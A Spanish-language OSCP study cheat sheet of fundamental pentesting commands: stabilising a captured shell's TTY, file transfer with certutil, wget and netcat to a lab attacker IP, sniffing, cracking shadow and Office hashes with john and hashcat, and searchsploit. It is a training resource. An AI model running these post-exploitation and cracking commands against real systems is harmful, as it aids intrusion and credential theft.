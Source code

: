  

### Tratamiento de la TTY[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#tratamiento-de-la-tty)

```python

script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a

 
### Lanzar una TTY Shell con Python[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#lanzar-una-tty-shell-con-python)

python -c 'import pty; pty.spawn("/bin/sh")'
```
 

### Descompresión
```python
#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip
```

 

### Comparación de archivos
```python
diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt

 
### Transferencia de archivos[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#transferencia-de-archivos)

#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt

​

#FTP

#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>

​

#Netcat

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

 

### Sniffing[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#sniffing)

tcpdump -i tun0 icmp -n
 

### Cracking[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#cracking)

#Básico

john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt

​

#Cracking de contraseñas con passwd y shadow

unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>

​

#Cracking de documentos encriptados de Office

office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>


### Búsqueda de exploits[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#busqueda-de-exploits)
```
searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```